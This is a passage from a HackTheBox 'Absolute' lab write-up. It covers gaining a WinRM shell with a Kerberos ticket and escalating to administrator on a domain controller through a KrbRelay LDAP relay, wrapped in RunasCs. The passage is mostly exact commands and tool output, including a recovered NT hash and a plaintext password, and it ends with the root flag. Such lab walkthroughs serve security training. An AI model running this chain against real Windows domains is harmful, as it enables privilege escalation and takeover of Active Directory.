[*] Using principal: winrm_user@absolute.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': 8738c7413a5da3bc1d083efc0ab06cb2
```

- And we got our shell
```
└─$ KRB5CCNAME=./winrm_user.ccache evil-winrm -i dc.absolute.htb -r absolute.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents> 
```

## Root
- To get a `root` on this host we have to perform [Krbrelay](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)
  - https://github.com/cube0x0/KrbRelay
  - Or https://github.com/Flangvik/SharpCollection
  - For it to work we need:
    - Box shouldn't have Oct 2022 patches and `LDAP` signing must be disabled (Windows default).
  - Let's start
  - First we need to find the `CLSID`
    - `Version 10.0.17763.3406` Maps to `Windows Server 2019` or `Windows 10`
    - https://www.gaijin.at/en/infos/windows-version-numbers
```
*Evil-WinRM* PS C:\Users\winrm_user> cmd /c ver

Microsoft Windows [Version 10.0.17763.3406]
```

- From [github post](https://github.com/cube0x0/KrbRelay#server-2019) we have multiple options
  - Let's start with `354ff91b-5e49-4bdc-a8e6-1cb6c6877182`
  - Now we need to upload our binary
```
*Evil-WinRM* PS C:\Users\winrm_user> .\krbrelay.exe -spn ldap/dc.absolute.htb -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember "Domain Admins" winrm_user
[*] Relaying context: absolute.htb\DC$
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: C:\Users\winrm_user\krbrelay.exe
[*] Register com server
objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGgQIAAAAAAAAdBS8jXo2zSz5zQY7ofyUaAvwAAMgH///LyO5YbeJkjyIADAAHADEAMgA3AC4AMAAuADAALgAxAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA==:

[*] Forcing SYSTEM authentication
[*] Using CLSID: 354ff91b-5e49-4bdc-a8e6-1cb6c6877182
System.Runtime.InteropServices.COMException (0x8000401A): The server process could not be started because the configured identity is incorrect. Check the username and password. (Exception from HRESULT: 0x8000401A)
   at KrbRelay.Ole32.CoGetInstanceFromIStorage(COSERVERINFO pServerInfo, Guid& pclsid, Object pUnkOuter, CLSCTX dwClsCtx, IStorage pstg, UInt32 cmq, MULTI_QI[] rgmqResults)
   at KrbRelay.Program.Main(String[] args)

```

- This error happens since exploit requires interactive session
  - We can use [RunasCs](https://github.com/antonioCoco/RunasCs)
  - Let's upload it and try again
    - `CLSID`s from github didn't work
    - So I had to use the one from `Trusted Installer` [here](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/)
```
*Evil-WinRM* PS C:\Users\winrm_user\videos> .\runascs 'm.lovegod' 'AbsoluteLDAP2022!' -d absolute.htb -l 9 ".\krbrelay.exe -spn ldap/dc.absolute.htb -port 10 -clsid 752073A1-23F2-4396-85F0-8FDB879ED0ED -add-groupmember Administrators winrm_user"

[*] Relaying context: absolute.htb\DC$
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: C:\Users\winrm_user\videos\krbrelay.exe
[*] Register com server
objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGgQIAAAAAAABN8Q56HFqFMWQEVafX0mq9ApAAAOQK//+ZS0h01jPZgCIADAAHADEAMgA3AC4AMAAuADAALgAxAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA==:

[*] Forcing SYSTEM authentication
[*] Using CLSID: 752073a1-23f2-4396-85f0-8fdb879ed0ed
[*] apReq: 608206b406092a864886f71201020201006e8206a33082069fa003020105a10302010ea20703050020000000a38204e1618204dd308204d9a003020105a10e1b0c4142534f4c5554452e485442a2223020a003020102a11930171b046c6461701b0f64632e6162736f6c7574652e687462a382049c30820498a003020112a103020104a282048a04820486dd1ef9546a93d733e8e8a66a37c865602589f3faa090c2a636fd7743b625e2545b3809b779cfc7327a690a3d6f2ac25725e38d3f3798af94af9efcfc314ff04bdde1e30cb44bb166ac96c5791a6ff1f274474bdfa9bae2a4d471d3e779c8bda549fa6922eacf17e978d686583ae628af7550fed20def8035cea50972ea34863b70afab78fa67823011e1480f01ffcc5724e09843aee634c82fcfa3b87702827a738cd5ff49b8e481ed966224779427dddc278487a6a32410c666ee55110685430284f24f6f27c1e6044d73874e9354d1eb8f501425eadde404ec756d6483df05e08c11ac603b8f57a4dd42556c1f670e0312e9041be0b55bb47022f704cf9534cff788ee66093a5644f0315fbc4870f31ded37e2ac19c15b0ac10ff66aa1fc053a243308bcf218d49de12b4cefe92d4aa98c67183f52b436a8cc9a83b434077a9a0bfcc39be15b05103c2cb397b04174e38c899c606ab52e475ab1f97924f0e3316978036885cc48f4216b8d5b1be67ccf2acdca9bb3662effbebf5e6285048b669f46dfee09d74f6509b5ff7e473581b9dc4907eb5eff663b7a8321b0e41579e6316a5b6cf30823b7fb652d1ff9968538ac92381355b99ad2d483ad4a8528b28e851658517ed73a460178b55ba5514c3296aa2b38461aaf4295a0fbd868e99db941a49a51b19abd061a47e58a59dcce6fcc37509258295effcaceebd784689f6120504204a89532b73cae3ddb5b99a4a0a60c6759ab1effca1b2cd74165ac13eb9ef15bef84211761567caac850f3319ccc240cc10801f8aebf2f996cd603ba63a01d9c66ee9c1603125d30370744344d259779855fc0e844b0cb7ad45603c159a5f98f94c51832edd9a542bafd00e770643391848f945918fe7db30584797272caa420f2861c0386dad6b5f80108050d6053b3f83a0631b9b96e72c3e0cc686606756145821e62e1a70a7cc149ca97530d329f69603adff00d8f8c1c8c4aa1829ca566e23579502d415f9dfca75b2100e1f71cd223697188d48f807d60ff0e5b5c9fb9a2042124368b781fe51293b351ecf04009eabb208664ab40cce3c211f01ef19a41606368f6369a3219c90d5d3762d2d5eb6cc42bc58e7efba545b776aa024fa24d331f1da55057d794a0a1305d14386c50427b93ac292258ee4c1a525cad4f5a1234516281841c375dd4c1b7d9b614d43fb29724e31802e9ae4d9c4fa48aa165f98842774c1c113e220d82c452bd7708c25283a3a7f16e63dd28a2fcf374bfe68392a7e5f1b1dd092e78cfb0d96feb1255dc1a92c223139bed9b18f080a7abbb85b23bc8a110d51d138d74f8d751244acf2b12cbc00cf40aba6a3dfb652daffca3cceb3b600205b012e08b24ba184dccb8518a8499e30412a3b09c684a0775e37e0d2beafa1ebedc481b7a54fcf933eeb7bba35ed72f87ddc0cf7ccaa6d3487c1876d282877046c8f93f9cbc5fd17d342d623ec340a1bae69c106c13413b942d24ffbb8c2faec41e08d4e8b41b00a0de97a5c9d152b60819c19110e1fe2ce4eb63e743e06068c3ac25e118e77bb579a5b0534861c36f49ef8fc9e568d5a70c8f71286b68136e738840c3b0a64e0e4991c18153040ee59f6f64c8711cdf4edb6ddffea48201a33082019fa003020112a28201960482019297eb3b63d07a774b625c14afeed6e50f363424278417fb80eecb573ff7f0eb1c4a863d2027947e14d747f6b7d16d09dd22c1835fa6457834b9ca05af59032050aee01eddcf92ecffcc50379f2398514fd3521163a8abf21232efc665d471ecb00213d31027e0928fd8118071b6e9ac583ba16b46e219c9dd62d845ecee8007d8d31fdcff9fd1029a3033b3c3a8a4b179204f5d7c57d09c71ffb464154d231584f0172cea17e19d50bf7bd392bb6c79cd638e0b5ccd6a209ba3337f2b62f440a9f478f548305050506929c5ff6151eea0ea056eaf8d29aaab309137d12c14aa8e74ecf7ada5e6a763ff7549ad18b20d870ba5fc40befc1aac1e7e6c869b9716e8d8de432ed475cc03bcf0cad8fc4f4f5ee025a158811681b5a7bc345ee4bb3959636d55026a08becc0587027f9aa3a954d98161270b7f5b32dc8d43d4be3a53b0f954560784733b5d5d45449187b82dd9d7563638efd9807306a84c892041d3a61419933be6c13e48b816ab3823913667eb3b7dc4cb20059c585f1e715fb40b6b4afb3fd95f5aef296ac1d97fa4ee20b0814a
[*] bind: 0
[*] ldap_get_option: LDAP_SASL_BIND_IN_PROGRESS
[*] apRep1: 6f8188308185a003020105a10302010fa2793077a003020112a270046ed4469a847818a0605964ac264f21643f3c097498327e65e0f20ee0d7dd22a54cdc52c695c51f4179a7b879eb69009a3273a95a62d8a40e8810f0c0e8852278426a30e446d71d087433a8c0b278d54ca3061f2419fb915f251a8e438a29e96e6febd5745414af79e2ae8a6d17a958
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
[*] apRep2: 6f5a3058a003020105a10302010fa24c304aa003020112a243044149daf20b987c4ac02e0c59b6b1739984a3c690c5ee80b872b91edc460d6ed273a7f09ca82bb458ac073000cd4c87168e33937cbbff1693a0b76659ded5a07d2a48
[*] bind: 0
[*] ldap_get_option: LDAP_SUCCESS
[+] LDAP session established
[*] ldap_modify: LDAP_SUCCESS
```
```
*Evil-WinRM* PS C:\Users\winrm_user\videos> net user winrm_user
User name                    winrm_user
Full Name
Comment                      Used to perform simple network tasks
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/9/2022 1:25:51 AM
Password expires             Never
Password changeable          6/10/2022 1:25:51 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/5/2023 5:13:12 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
Global Group memberships     *Domain Users         *Protected Users
The command completed successfully.
```

- Now relogin to get a flag
```
*Evil-WinRM* PS C:\Users\winrm_user\Documents> cd \users\administrator\desktop
*Evil-WinRM* PS C:\users\administrator\desktop> type root.txt
0c8f8798e8846080d4b22ea7e77fcfdd
*Evil-WinRM* PS C:\users\administrator\desktop> 

```
- We can also try [KrbRelayUp](https://0xdf.gitlab.io/2023/05/27/htb-absolute.html#krbrelayup)